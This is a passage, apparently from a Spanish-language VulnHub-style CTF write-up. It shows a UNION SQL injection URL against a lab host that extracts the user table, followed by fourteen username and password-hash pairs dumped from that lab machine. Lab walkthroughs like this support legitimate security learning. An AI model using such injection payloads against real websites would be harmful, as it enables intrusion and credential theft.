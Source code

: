 Vamos directamente por `username` y `password`

```
http://192.168.100.38/site.php?id=2 union select 1,group_concat(username,0x3a,password) from user-- -
```

![](/assets/images/vh-writeup-myexpen/Web42.png)

Y bueno hay que copiarnos todo que es muy largo (eso dijo ella) el resultado xd

Con esto ordenamos todo

![](/assets/images/vh-writeup-myexpen/Web43.png)

```ruby
❯ catn data
afoulon:124922b5d61dd31177ec83719ef8110a
pbaudouin:64202ddd5fdea4cc5c2f856efef36e1a
rlefrancois:ef0dafa5f531b54bf1f09592df1cd110
mriviere:d0eeb03c6cc5f98a3ca293c1cbf073fc
mnguyen:f7111a83d50584e3f91d85c3db710708
pgervais:2ba907839d9b2d94be46aa27cec150e5
placombe:04d1634c2bfffa62386da699bb79f191
triou:6c26031f0e0859a5716a27d2902585c7
broy:b2d2e1b2e6f4e3d5fe0ae80898f5db27
brenaud:2204079caddd265cedb20d661e35ddc9
slamotte:21989af1d818ad73741dfdbef642b28f
nthomas:a085d095e552db5d0ea9c455b4e99a30
vhoffmann:ba79ca77fe7b216c3e32b37824a20ef3
rmasson:ebfc0985501fee33b9ff2f2734011882
```